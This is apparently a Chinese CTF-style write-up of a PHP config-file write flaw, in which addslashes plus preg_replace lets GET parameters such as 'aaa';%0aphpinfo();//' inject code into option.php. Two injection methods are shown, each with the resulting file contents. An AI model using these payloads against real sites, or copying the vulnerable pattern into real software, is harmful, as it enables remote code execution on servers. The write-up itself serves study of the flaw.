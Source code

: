 # Challenge
index.php
```php
<?php
$str = addslashes($_GET['option']);
$file = file_get_contents('xxxxx/option.php');
$file = preg_replace('|\$option=\'.*\';|', "\$option='$str';", $file);
file_put_contents('xxxxx/option.php', $file);
```
xxxxx/option.php
```php
$option='test';
```
# Solution
流程如下：
1. 对传入的option参数进行addslashes，比如有单引号`'`，会变成`\'`
2. 通过正则匹配xxxxx/option.php中的`$option='xxx';`，将xxx的内容替换为经第一步处理的值
3. 替换完成，将其写入xxxxx/option.php。

场景： 用于写入配置文件等。

## 法一
先访问：
```
?option=aaa';%0aphpinfo();//
```
经过addslashes后，$str值为 `aaa\';%0aphpinfo();//`

进行正则匹配并写入文件，xxxxx/option.php的内容变为:
```php
<?php 
$option='aaa\';
phpinfo();//';
?>
```

再访问：
```
?option=xxx
```
正则匹配时，会将两个单引号里的内容即 `aaa\` ，替换为 `xxx`，此时xxxxx/option.php的内容变为
```php 
<?php
$option='xxx';
phpinfo();//';
?>
```

最后访问：/xxxxx/option.php

## 法二
访问：
```
?option=aaa\';phpinfo();//
```
经过addslashes后，$str为 `aaa\\\';phpinfo();//`

经过preg_replace正则匹配后，对`\`做了转义处理,xxxxx/option.php的内容变为：
```
<?php 
$option='aaa\\';phpinfo();//';
?>
```

最后访问：/xxxxx/option.php

# Refference 
+ p神的小秘圈
+ [l3m0n：小密圈专题(1)-配置文件写入问题](http://www.cnblogs.com/iamstudy/articles/config_file_write_vue.html)
+ [[CVE-2016-7565]Exponent CMS 2.3.9 配置文件写入 getshell分析 ](https://chybeta.github.io/2017/12/11/CVE-2016-7565-Exponent-CMS-2-3-9-%E9%85%8D%E7%BD%AE%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5-getshell%E5%88%86%E6%9E%90/)